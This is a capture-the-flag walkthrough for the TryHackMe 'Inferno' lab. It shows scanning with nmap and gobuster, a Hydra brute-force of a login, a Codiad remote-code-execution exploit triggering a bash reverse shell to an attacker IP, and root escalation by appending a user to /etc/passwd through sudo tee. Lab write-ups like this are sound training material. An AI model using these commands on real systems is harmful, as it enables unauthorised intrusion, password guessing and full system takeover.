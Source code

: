 # Inferno

**Room Link:** [https://tryhackme.com/r/room/inferno](https://tryhackme.com/r/room/inferno)

### **Scans** <a href="#scans" id="scans"></a>

Initial scan

**Kali**

```
nmap -A $VICTIM
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Longer scan

**Kali**

```
nmap -sV -sT -O -p 1-65535 $VICTIM
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## **TCP/80 - HTTP**

### Find Pages <a href="#find-pages" id="find-pages"></a>

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



### **Hydra**

Since we have no information at this point we just try admin as the username

**Kali**

```
hydra -l admin -P /usr/share/wordlists/SecLists/Passwords/darkweb2017-top10000.txt $VICTIM http-get "/inferno/" -V
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



After some digging we can see this is a codiad ide which has a RCE exploit

**Kali #1**

```
echo 'bash -c "bash -i >/dev/tcp/10.10.183.11/4445 0>&1 2>&1"' | nc -lnvp 4444
```

**Kali #2**

```
nc -nlvp 4445
```

**Kali #3**

```
searchsploit codiad
searchsploit -m multiple/webapps/49705.py
python3 49705.py http://admin:dante1@$VICTIM/inferno/ admin dante1 $KALI 4444 linux
```

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Autocomplete

**Victim**

```
python3 -c 'import pty; pty.spawn("/bin/sh")'
ctrl + Z
stty raw -echo;fg
```



## Lateral Movement

**Victim**

```
cd /home/dante/Downloads
ls -lah
cat .download.dat
```

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
cat .download.dat
```

<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (13) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## **TCP/22 - SSH**

**Kali**

```
ssh dante@$VICTIM
Password: V1rg1l10h3lpm3
```

<figure><img src="../../.gitbook/assets/image (14) (1) (1).png" alt=""><figcaption></figcaption></figure>

## **Privilege Escalation**

**Exploit:** [https://gtfobins.github.io/gtfobins/tee/](https://gtfobins.github.io/gtfobins/tee/)

**Victim**

```
sudo -l
```

<figure><img src="../../.gitbook/assets/image (15) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
LFILE=/etc/passwd
echo 'new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash' | sudo tee -a "$LFILE"

su new
Password: 123
```

<figure><img src="../../.gitbook/assets/image (16) (1) (1).png" alt=""><figcaption></figcaption></figure>

